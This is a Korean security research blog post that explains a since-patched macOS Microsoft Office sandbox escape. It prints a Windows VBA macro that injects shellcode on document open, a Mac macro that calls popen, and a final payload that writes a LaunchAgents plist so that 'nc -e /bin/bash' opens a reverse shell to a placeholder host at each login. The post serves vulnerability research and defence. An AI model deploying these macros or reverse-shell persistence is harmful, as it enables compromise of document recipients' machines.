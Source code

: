 ```yaml
---
layout: post
title:  "MacOs에서 Office Sandbox Bypass"
author: "hkkiw0823"
comments: true
tags: [ctf]
---
```


라온화이트햇 핵심연구팀 강인욱([iwkang@raoncorp.com](mailto:iwkang@raoncorp.com))


Office 공격이 유행함에 따라 최근 공격자들은 Windows 뿐만 아니라 MacOs까지 호환되도록 범위를 넓혔습니다. 해외에서는 MacOs를 사용하는 유저들이 더 많아서 Windows 만으로는 공격 성공률이 낮습니다. 하지만 지금까지 MacOs에서 Office 공격이 왜 발생하지 않았는지에 대해서 알아보도록 합니다.

* 이 문서에 기술된 시작프로그램 등록 방법은 현재 패치가 이루어져서 작동하지 않습니다.

일반적으로 Windows Macro는 아래와 같이 진행됩니다.

    
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
    Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long
    
    
    Sub Auto_Open()
            Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
    #If Vba7 Then
            Dim  Xlbufvetp As LongPtr
    #Else
            Dim  Xlbufvetp As Long
    #EndIf
            Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
    139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
    13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
    116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
    214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
    36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
    139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
    235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
    224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
    187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
            Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
            For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                    Wyzayxya = Hyeyhafxp(Zolde)
                    Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
            Next Zolde
            Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
    End Sub

excel.exe에 쉘코드를 삽입 후 CreateThread로 실행을 해주는 모습입니다.

Mac 에서는 아래와 같이 사용할 수 있습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Sub Document_Open()
       system("~~~~")
    End Sub

Mac에서는 더 간단한 것처럼 보이지만 Mac에는 기본적으로 Sandbox가 존재합니다.

Mac에서 아래와 같이 명령어를 입력하면 사용할 수 있는 권한이 나타납니다.

    codesign --display -v --entitlements - /Applications/Microsoft\ Word.app

    ...
    com.apple.security.files.bookmarks.app-scope
    com.apple.security.files.user-selected.read-write
    com.apple.security.network.client
    com.apple.security.personal-information.addressbook
    com.apple.security.print
    ...
    com.apple.security.temporary-exception.sbpl
    (allow file-read* file-write*
    (require-any
    (require-all (vnode-type REGULAR-FILE) (regex #"(^|/)~\$[^/]+$"))
    )
    )

Mac에서는 자체적으로 App마다 SandBox가 있어서 특정 행동을 하기 위해선 권한이 필요합니다. 아마 이 때문에 Mac에서 Office를 이용한 공격이 성행하지 않았던 것으로 보입니다.

위에 있는 Office 권한을 자세히 살펴보면 파일 읽기와 쓰기 권한을 사용할 때 특정 조건이 맞춰지면 사용할 수 있는 것처럼 보입니다.

    ~$xxxx.docx

어디서 많이 본 듯한 파일명입니다. Office의 경우 처음 문서를 열면 기본적으로 임시파일을 "~$파일명"에 생성합니다. 그렇기 때문에 Office를 실행할 때마다 권한 문제를 일으키지 않기 위해 정규식으로 허용해 둔 모습입니다.

이제 저 정규식을 가지고 Sandbox를 우회해봅니다.

MacOs에서는 아래와 같은 폴더에 plist파일을 등록하면 재부팅시 해당 바이너리를 실행하게 됩니다.

![/assets/launchd_dirs.png](/assets/launchd_dirs.png)

/System 이나 /Library 는 기본적으로 권한이 없어서 실제 공격시엔 유저 권한인 ~/Library를 이용해야 합니다.

~/Library/LauchAgents에 파일을 작성할 수 있다면 시작프로그램을 등록하여 재부팅할 때마다 악성프로그램이 동작하게 할 수 있습니다.

아래와 같이 plist파일을 작성하여 시작프로그램 폴더에 등록한다면 실제로 재부팅할 때마다 nc로 붙은 것을 확인할 수 있습니다.

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
    <dict>
    <key>Label</key>
    <string>com.xpnsec.escape</string>
    <key>ProgramArguments</key>
    <array>
    <string>python</string>
    <string>-c</string>
    <string>import os; os.system("nc -e /bin/bash xxxxxx 31337")</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    </dict>
    </plist>

최종적인 페이로드는 아래와 같습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Private Sub Document_Open()
    Dim path As String
    Dim payload As String
    payload = "import os; os.system(\"nc -e /bin/bash xxxxxx 31337\")"
    path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
    arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
    "<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
    "<plist version=""1.0"">\n" & _
    "<dict>\n" & _
    "<key>Label</key>\n" & _
    "<string>com.xpnsec.sandbox</string>\n" & _
    "<key>ProgramArguments</key>\n" & _
    "<array>\n" & _
    "<string>python</string>\n" & _
    "<string>-c</string>\n" & _
    "<string>" & payload & "</string>" & _
    "</array>\n" & _
    "<key>RunAtLoad</key>\n" & _
    "<true/>\n" & _
    "</dict>\n" & _
    "</plist>"
    Result = system("echo """ & arg & """ > '" & path & "'", "r”)
    End Sub

2020. 03 기준으로 해당 우회법은 MS Office 측에서 패치를 하여 더 이상 사용할 수 없습니다.

시작프로그램에 등록하는 것은 불가능하지만 문서를 열었을때 쉘을 획득하여 이것저것 할 수는 있어 보입니다.
